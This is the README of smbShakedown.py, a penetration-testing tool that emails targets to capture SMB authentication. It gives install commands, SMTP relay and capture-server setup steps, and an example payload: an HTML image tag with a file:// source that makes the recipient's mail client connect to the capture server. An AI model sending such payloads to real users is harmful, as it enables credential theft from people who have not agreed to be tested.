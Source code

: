 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
#Installation
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    chmod +x smbShakedown.py
    python smbShakedown.py

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server.
    
    1.Configure SMTP Relay server address.
    
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses.
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    *Verify this is the external IP address*
    
    5.SMBCapture Server does not have to be hosted locally.
    EX:(smbShakedown.py script can be ran locally on one system and a SMBCapture server can be hosted somewhere else like on a VPS server.

#Internal Pentest
    1.Configure SMTP Server, Smarthost/localhost/(Client's Email Server?):
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5.SMBCapture Server can be hosted locally when testing internal network.

#To do:
    SMTP Anonymous Auth option
    Add smtplib error handling
    Multiple recipient address support.
    SMTP local server option
    Create forked version.

